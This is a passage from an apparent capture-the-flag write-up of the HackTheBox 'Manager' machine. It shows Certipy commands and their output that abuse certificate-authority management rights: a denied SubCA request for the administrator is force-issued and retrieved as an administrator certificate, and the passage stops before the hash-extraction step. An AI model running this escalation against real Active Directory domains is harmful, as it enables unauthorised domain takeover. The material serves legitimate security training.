 This gets reset periodically, so if I find some step breaks while exploiting, it’s worth going back to see if that is why.

#### Administrator Certificate

The first step is to request a certificate based on the Subordinate Certification Authority (SubCA) template provided by ADCS. The SubCA template serves as a predefined set of configurations and policies governing the issuance of certificates.

```
oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate

```

This fails, but it saves the private key involved. Then, using the Manage CA and Manage Certificates privileges, I’ll use the `ca` subcommand to issue the request:

```
oxdf@hacky$ certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate

```

Now, the issued certificate can be retrieved using the `req` command:

```
oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 13
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'
[*] Saved certificate and private key to 'administrator.pfx'

```

#### Administrator NTLM

With this certificate as the administrator user, the easiest way to get a shell is to use it to get the NTLM hash for the user with the `auth` command. This requires the VM and target times to be in sync, with otherwise leads to this failure:
